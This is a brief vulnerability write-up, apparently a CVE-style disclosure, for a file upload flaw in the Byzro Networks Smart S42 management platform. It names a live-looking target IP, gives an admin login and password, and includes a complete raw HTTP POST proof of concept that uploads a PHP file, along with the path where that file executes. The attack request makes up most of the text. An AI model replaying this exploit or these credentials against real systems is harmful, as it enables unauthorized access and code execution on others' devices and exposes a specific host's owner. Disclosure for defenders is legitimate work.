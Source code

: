 There is a file upload vulnerability in Byzro Networks Smart S42 management platform

version:S42

Vulnerability location：/useratte/userattestation.php

Vulnerability recurrence

IP: https://113.9.192.214:8443/
1. The login interface is as shown in the figure.
 admin/zj40245917

![image](https://github.com/Sadw11v/cve/assets/130206491/9a361370-6cb0-4590-beb7-69564600d40c)

2. Construct a POC and directly upload the 1.php file.
POC
```
POST /useratte/userattestation.php HTTP/1.1
Host: 113.9.192.214:8443
Cookie: PHPSESSID=2174712c6aeda51c4fb6e6c5e6aaac50
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 592
Origin: https://113.9.192.214:8443
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328?
```
![image](https://github.com/Sadw11v/cve/assets/130206491/a596f778-cc88-4000-8ae6-1713c1cdfb14)

3. Visit /boot/web/upload/weblogo/1.php
![image](https://github.com/Sadw11v/cve/assets/130206491/5db06aca-562f-40aa-bad7-8103a3afcac2)

   
